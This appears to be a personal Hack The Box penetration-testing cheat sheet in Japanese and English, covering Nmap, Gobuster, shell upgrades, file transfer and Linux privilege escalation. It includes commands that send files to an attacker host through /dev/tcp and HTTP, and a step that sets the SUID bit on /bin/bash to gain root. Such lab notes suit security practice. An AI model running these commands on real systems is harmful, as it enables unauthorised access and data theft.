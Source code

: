 # My Directories
### alias <br>
htb <br>

~/htb/workspace <br>
~/htb/tools <br>
~/htb/ <br>


# Linux

## Nmap
#### 頻出オプション <br>
  ー -sC: equivalent to --script=default <br>
  ー -sV: Probe open ports to determine service/version info <br>
  ー -sU: UDP scan <br>
  ー -T<0-5>: Set timing template (higher is faster) <br>
　ー -p<0><-><65535> : -p22, 80, 55555 ・ -p1-100 等 <br>
  ー -p-: All ports <br>
  ー --top-ports <number>: Scan <number> most common ports <br>
  https://nmap.org/man/ja/man-briefoptions.html <br>

## Enumeration
・Gobuster <br>
  ー gobuster <br>
      　ー dir -u <target_url> -w <your_lists> <br>
      　ー dns -d <target_domain> -w <your_lists> <br>
      　ー vhost -u <target_url> -w <your_lists> <br>
      
  ー  <br>

  https://www.kali.org/tools/gobuster/ <br>

## Shell Upgrade
Shell to Bash <br>
Upgrade from shell to bash. <br>

```
SHELL=/bin/bash script -q /dev/null
```
 <br>
Python PTY Module 1 <br>
Spawn /bin/bash using Python’s PTY module, and connect the controlling shell with its standard I/O. <br>

```
python -c 'import pty; pty.spawn("/bin/bash")'
 ```
 <br>

## File Upload/Download
### 1. Download <br>
```
python3 -m http.server <your_port>
```
and then
```
wget http://<your_ip>/ <your_port>
```

### 2. Upload <br>
```
python3 -m uploadserver (default_port ==> 8000)
```
and then
```
python3 -c "import requests;requests.post(\"http://<your_ip>:8000/upload\",files={\"files\":open(\"<upload_file>\",\"rb\")})"
```
#### OR
```
nc -lvnp <your_port> > <your_file_name(anything is OK(example: upload.jar))>
```
and then
```
cat <upload_file> > /dev/tcp/<your_ip>/<your_port>
```

## Privilege Escalation
・sudo -l <br>
  ー 1. root権限で実行できるコトを探す。 <br>
  ー 1-1. GTFOBinsでexploitを探す。 <br>
  ー 2. 実行できるコトを悪用する。 <br>
  　ー 2-1. Pythonスクリプトをローカルのshを参照して実行している場合に、ディレクトリを移動して独自のshを実行するようにする場合。 <br>
   　ー 2-2. hogehoge.shの中身を#!/bin/bash \n chmod u+s /bin/bashとする。それを実行させる。 <br>
    　ー 2-3. bash -p 実行。→ 特権昇格。 <br>      
・linPEAS: sudo -lしてもいい感じの出てこないときに使う。 <br>
  ー 1. linPEASでUnknown SUID binaryを特定。 <br>
  ー 2. そのコマンドのバージョンを確認。脆弱性を探す。 <br>
  ー 3. 脆弱性を突いて特権昇格。 <br>
https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS?source=post_page-----7b26a767293a--------------------------------

# Windows
